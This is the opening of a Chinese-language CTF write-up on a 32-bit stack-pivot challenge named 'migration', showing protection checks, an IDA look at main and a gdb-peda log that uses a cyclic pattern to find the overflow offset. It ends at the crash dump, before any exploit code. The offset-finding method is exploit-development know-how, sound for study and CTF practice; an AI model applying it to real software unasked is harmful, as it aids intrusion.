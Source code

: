 将文件下载下来，检查文件保护：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597548423248-18b632ec-3aee-4031-9659-b8fc9bc1a3aa.png)

32位程序，开启了NX保护和Full RELRO，拖入到IDA里查看main函数：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597548526378-2220d8ce-f143-477f-8dd1-0aba02643716.png)

从题目中可以看出，main函数只给了我们一次输入的机会，也就是不能利用栈溢出来多次使用main函数。

我们首先测一下buf距离EBP（栈底）的距离（IDA给的是0x28，万一不准确呢？）

日志如下：

```powershell
root@kali:~/桌面/CTF# cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
root@kali:~/桌面/CTF# gdb migration
GNU gdb (Debian 8.2.1-2) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from migration...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /root/桌面/CTF/migration 
Try your best :
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x40 ('@')
EBX: 0x0 
ECX: 0xffffd250 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\\J\375", <incomplete sequence \367>)
EDX: 0x40 ('@')
ESI: 0xf7fac000 --> 0x1d9d6c 
EDI: 0xf7fac000 --> 0x1d9d6c 
EBP: 0x6161616b ('kaaa')
ESP: 0xffffd280 ("maaanaaaoaaapaaa\\J\375", <incomplete sequence \367>)
EIP: 0x6161616c ('laaa')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x6161616c
[------------------------------------stack-------------------------------------]
0000| 0xffffd280 ("maaanaaaoaaapaaa\\J\375", <incomplete sequence \367>)
0004| 0xffffd284 ("naaaoaaapaaa\\J\375", <incomplete sequence \367>)
0008| 0xffffd288 ("oaaapaaa\\J\375", <incomplete sequence \367>)
0012| 0xffffd28c ("paaa\\J\375", <incomplete sequence \367>)
0016| 0xffffd290 --> 0xf7fd4a5c --> 0x0 
0020| 0xffffd294 --> 0xf7ffd000 --> 0x28f2c 
```